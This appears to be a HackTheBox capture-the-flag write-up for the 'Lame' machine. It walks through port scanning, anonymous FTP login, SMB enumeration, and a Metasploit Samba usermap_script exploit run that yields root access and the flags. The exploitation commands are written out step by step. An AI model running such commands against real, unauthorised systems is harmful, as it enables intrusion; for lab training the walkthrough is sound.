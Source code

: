 ```yaml
---
Platform: HackTheBox
Difficulty: Easy
tags:
  - RCE
Status: Rooted/Finished
Type: Machine
Title: Lame
Category: 
CreatedOn: 04-12-2023
---
```

# Lame

Hello everyone, In this blog we are going to solve Lame from HackTheBox.

Link for the machine : [https://app.hackthebox.com/machines/1](https://app.hackthebox.com/machines/1)

  

Lets Start 🙌

  

Connect to the HTB server by using the OpenVpn configuration file that’s generated by HTB.

[ [Click Here](https://help.hackthebox.com/en/articles/5185687-introduction-to-lab-access) to learn more about how to connect to vpn and access the boxes. ]

After connecting to the vpn service, click on Join Machine to access the machine’s ip.

After joining the machine you can see the IP Address of the target machine.

  

First start the reconnaissance by running `rustscan` on the target IP address.

Command: `rustscan -a 10.10.10.3 -- -A -Pn`

![Untitled.png](Lame/assets/Untitled.png)

![Untitled 1.png](Lame/assets/Untitled%201.png)

From the results, we got the following ports and services running:

|   |   |   |
|---|---|---|
|Port|Service|Version|
|21|FTP|vsftpd 2.3.4|
|22|SSH|OpenSSH 4.7p1|
|139|netbios-ssn|Samba smbd 3.X - 4.X|
|445|netbios-ssn|Samba smbd 3.X - 4.X|
|3632|distccd|distccd v1|

First, I started enumerating the FTP service running on Port `21`.

From the scan results, we can see that the Anonymous login is allowed for FTP

![Untitled 2.png](Lame/assets/Untitled%202.png)

So I tried to login as `Anonymous`

Command: `ftp 10.10.10.3`

username: `Anonymous`

Password: `Anonymous`

![Untitled 3.png](Lame/assets/Untitled%203.png)

![Untitled 4.png](Lame/assets/Untitled%204.png)

Found nothing in the FTP anonymous Login.

Next I started to enumerate SMB service running on port 139. I used `enum4linux` tool to enumerate.

Command: `enum4linux -a 10.10.10.3`

![Untitled 5.png](Lame/assets/Untitled%205.png)

From the response of `enum4linux`, I didn’t found any interesting shares.

  

Next, I searched for exploits for the samba version: `Samba smbd 3.X - 4.X` and found the this version is vulnerable to command execution.

[https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script/](https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script/)

To use the above exploit, execute the commands in `msfconsole` as follows:

`use exploit/multi/samba/usermap_script`

`set RHOSTS 10.10.10.3`

`set LHOST tun0` ( Here tun0 is your hackthebox vpn tunnel IP )

`run`

![Untitled 6.png](Lame/assets/Untitled%206.png)

Now we have got access to the target machine as `root`. I searched for the user flag using the following command:

command: `find / -name user.txt`

![Untitled 7.png](Lame/assets/Untitled%207.png)

And we have found the user flag.

Now I searched for the root flag using the same method and found the root flag:

![Untitled 8.png](Lame/assets/Untitled%208.png)

  

We have successfully found all the flags.

  

Thank You !!!